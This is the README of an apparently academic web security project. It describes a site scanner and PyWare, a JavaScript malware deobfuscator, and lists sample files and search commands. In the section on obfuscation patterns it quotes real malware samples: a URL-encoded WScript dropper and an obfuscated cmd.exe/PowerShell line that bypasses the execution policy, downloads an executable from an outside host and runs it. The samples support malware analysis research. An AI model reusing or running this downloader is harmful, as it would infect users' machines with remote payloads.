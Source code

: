 # aau-security
Web application security project

## Nidan

A tool for scanning a huge range of web sites for security related issues, such as using an outdated JavaScript library.

## PyWare

Tool for analyzing JavaScript malware

To test the tool it is suggested to look at [HynekPetrak/javascript-malware-collection](https://github.com/HynekPetrak/javascript-malware-collection)

### Potential good files to test

* `20170122_38f3734379c19b7bfbb48e9f6ed4ca84.js`
* `20170118_e2e16d7c80ecd56b18d8b159cfda06bf.js`
* `20170323_05a3cc924d4c8c0699f8d72342482e51.js`
* `0160517_14d08a9ae081077e81db242655153c4b.js` -- Mentions Denmark?
* `20170301/20170301_bf55dc97b611f894f3550515d45a4171.js`
* `20170412_5a0493b8e4e62ae6455d848b644c21a3.js` -- Maybe a pretty good next step to be able to handle this file 

### PyWare todo

- [x] Handle simple string concatenations like `var t4 = "ht"+"tp";`
- [x] Handle string concatenations with declared string variables like `t4 + ":"+ter+ter` where *t4* is the *t4* assigned above
- [ ] Perform substring manipulations such as `var yYIMi = feuJN.substring(n, n+(304-303));` find more with `ag "\."substring"\("`
- [ ] Handle trivial arrays of strings
- [ ] Look more into reverse, split, join, charCodeAt and  charAt


### Patterns to try and solve

**Url encoding**

`20160328_509659787b4b25701f16c342ecb991fd.js`
```JavaScript
eval(keyHooks("_%20%3D%20%28%22WScr%22%29%2C%20superMatcher%20%3D%20%28%22Obje%22%29%3Bcontains%20%3D%20%28%22Slee%22%29%3B%20disabled%20%3D%20%28%22TP.3.%22%29%3B%20removeEventListener%20%3D%20%28%22T%22%29%3B%20overflowY%20%3D%20%28%22Sl%22%29%3Bstate%20%3D%20%285%29%3B%20needsContext%20%3D%20%28%22.6.0%22%29%3Belem%20%3D%20%28%22un%22%29%2C%20option%20%3D%20%28%22verX%22%29%3BpreDispatch%20%3D%20%2827%29%3Bfix%20%3D%20%28%22teObje%22%29%3B%20idx%20%3D%20%2889%29%3B%20dest%20%3D%20%28%22s%22%29%3B%20defaultExtra%20%3D%20%2829%29%3B%20first%20%3D%20%28%22op%22%29%3Bexpand%20%3D%20%28%22ADO%22%29%3B%20scale%20%3D%20%28%22Msxm%22%29%3B%20seekingTransport%20%3D%20%2864%29%3B%20all%20%3D%20%28%22Expan%22%29%3B%20timeout%20%3D%20%28%22hel%22%29%3B%20seed%20%3D%20%28%22t.cor%22%29%3Bvar%20bind%20%3D%20%28%22ateObj%22%29%2C%20winnow%20%3D%20%28%22eep%22%29%2C%20toggle%20%3D%20%282%29%2C%20textContent%20%3D%20%28%22rt%22%29%2C%20old%20%3D%20%281%29%3Bvar%20finalValue%20%3D%20%28%22/NOZ8%22%29%3BdefaultView%20%3D%20%2841%29%3B%20cached%20%3D%20eval%3B%20i%20%3D%20%28%22SaveT%22%29%3B%20match%20%3D%20%28%22totype%22%29%3B%20rxhtmlTag%20%3D%20%28%22ty%22%29%3BpostFinder%20%3D%20%28%22LHT%22%29%3B%20dataAndEvents%20%3D%20%28%22t%22%29%3B%20isPlainObject%20%3D%20%28%22uctor%22%29%3B%20rtypenamespace%20%3D%20%28%22iro%22%29%3B%20returned%20%3D%20%28122%29%3B%20get%20%3D%20%28%22d%22%29%3Bw%20%3D%20%289%29%3B%20cacheLength%20%3D%20%28%22Msxml%22%29%3B%20camelCase%20%3D%20%28%22length%22%29%3B%20css%20%3D%20%28%22P.6.%22%29%3BmozMatchesSelector%20%3D%20%28%22e%22%29%2C%20createFxNow%20%3D%20%28%22%3A//eku%22%29%2C%20cssPrefixes%20%3D%20%28218%29%3Bvar%20completeDeferred%20%3D%20%28%228JY.%22%29%2C%20safeActiveElement%20%3D%20%28function%20documentIsHTML%28%29%7B%7D%2C%20%22Stream%22%29%3Bvar%20triggered%20%3D%20%28%22stat%22%29%2C%20dataFilter%20%3D%20%28%22http%22%29%3BcreateCache%20%3D%20%2837%29%2C%20nativeStatusText%20%3D%20%28%22Micros%22%29%2C%20addToPrefiltersOrTransports%20%3D%20%28%22P%25/%22%29%2C%20getComputedStyle%20%3D%20%28function%20documentIsHTML.getAttribute%28%29%7Bvar%20nodeNameSelector%3D%20%5B%5D%5B%22constr%22%20+%20isPlainObject%5D%5B%22pro%22%20+%20match%5D%5B%22so%22%20+%20textContent%5D%5B%22apply%22%5D%28%29%3B%20return%20nodeNameSelector%3B%7D%2C%20%22WScrip%22%29%3Bwhat%20%3D%20%2814%29%3BcssFn%20%3D%20%28%22.com/%22%29%2C%20_queueHooks%20%3D%20%28%22verXML%22%29%2C%20undelegate%20%3D%20%28%22WSc%22%29%2C%20callbackName%20%3D%20%28%22MLHTT%22%29%3Bpop%20%3D%20%28%22n%22%29%2C%20rfxtypes%20%3D%20%28%22trings%22%29%2C%20noCloneChecked%20%3D%20%28%22nseBo%22%29%2C%20bubbleType%20%3D%20%28%22.XMLH%22%29%3Bbinary%20%3D%20%28%22dyS%22%29%2C%20nodeName%20%3D%20%28162%29%2C%20compareDocumentPosition%20%3D%20%28%22icc%22%29%3Brquery%20%3D%20%28114%29%3B%20left%20%3D%20%28%22.XM%22%29%3BnodeValue%20%3D%20%28%22pt%22%29%3B%20mapped%20%3D%20%28200%29%3B%20result%20%3D%20%283%29%3B%3B"));
// Url deded string
= ("WScr"), superMatcher = ("Obje");contains = ("Slee"); disabled = ("TP.3."); removeEventListener = ("T"); overflowY = ("Sl");state = (5); needsContext = (".6.0");elem = ("un"), option = ("verX");preDispatch = (27);fix = ("teObje"); idx = (89); dest = ("s"); defaultExtra = (29); first = ("op");expand = ("ADO"); scale = ("Msxm"); seekingTransport = (64); all = ("Expan"); timeout = ("hel"); seed = ("t.cor");var bind = ("ateObj"), winnow = ("eep"), toggle = (2), textContent = ("rt"), old = (1);var finalValue = ("/NOZ8");defaultView = (41); cached = eval; i = ("SaveT"); match = ("totype"); rxhtmlTag = ("ty");postFinder = ("LHT"); dataAndEvents = ("t"); isPlainObject = ("uctor"); rtypenamespace = ("iro"); returned = (122); get = ("d");w = (9); cacheLength = ("Msxml"); camelCase = ("length"); css = ("P.6.");mozMatchesSelector = ("e"), createFxNow = ("://eku"), cssPrefixes = (218);var completeDeferred = ("8JY."), safeActiveElement = (function documentIsHTML(){}, "Stream");var triggered = ("stat"), dataFilter = ("http");createCache = (37), nativeStatusText = ("Micros"), addToPrefiltersOrTransports = ("P%/"), getComputedStyle = (function documentIsHTML.getAttribute(){var nodeNameSelector= []["constr"   isPlainObject]["pro"   match]["so"   textContent]["apply"](); return nodeNameSelector;}, "WScrip");what = (14);cssFn = (".com/"), _queueHooks = ("verXML"), undelegate = ("WSc"), callbackName = ("MLHTT");pop = ("n"), rfxtypes = ("trings"), noCloneChecked = ("nseBo"), bubbleType = (".XMLH");binary = ("dyS"), nodeName = (162), compareDocumentPosition = ("icc");rquery = (114); left = (".XM");nodeValue = ("pt"); mapped = (200); result = (3);;
```

This patterns seems common, where meaningful strings are breaked by some kind of variable

```
var aznecad = "cmd.exe /c " + amgizann + "  $hemip='^emp+''\ebbydlu.';$ylqilgi='^wnloadFile(''ht';$pequ='^tp://seehasena';$yxfefb='^Scope    Process;';$yhoz='^olicy    Bypass -';$ryhu='^$path); Start-';$yqyv='^exe'');(New-Obj';$vilwidt='^s/outloo.exe'',';$jiwa='^Set-ExecutionP';$wxagyz='^chter.de/Style';$obsesu='^Process $path';$kwezcof='^ect   System.Net';$anezsy='^.Webclient).Do';$iculci='^ $path=($env:t'; Invoke-Expression ($jiwa+$yhoz+$yxfefb+$iculci+$hemip+$yqyv+$kwezcof+$anezsy+$ylqilgi+$pequ+$wxagyz+$vilwidt+$ryhu+$obsesu);\"";
```

```
var _87g6sd5fg = _87867t67t6gt["En"+"vi"+""+"ron"+"men"+"t"]("SY"+"S"+"T"+"E"+"M");
```

### Commands to help handle 40GB malware

We have ~40GiB JavaScript malware, spread in 39480 files selecting good files for debugging and testing can be challenging, the following command is a nice start.

It tries to find string concatenations and it uses [ag](https://github.com/ggreer/the_silver_searcher).

```
ag \"\ "\+"\ \"
```

To find and cat the files from the list use

```
find -name "*20170122_38f3734379c19b7bfbb48e9f6ed4ca84.js" -exec cat {} +
```

Another satisfying command to try is

```
ag \"\;"\n"
```

String concatenation with array
```
 ag \]\ "\+"\ \"
 ```

Var assignments starting with a string

```
 ag "(var )(([a-zA-Z])([a-zA-Z0-9$_])*)( = \")(([a-zA-Z0-9$_/:%.?=&()\-\,])*)(\")"
 ```
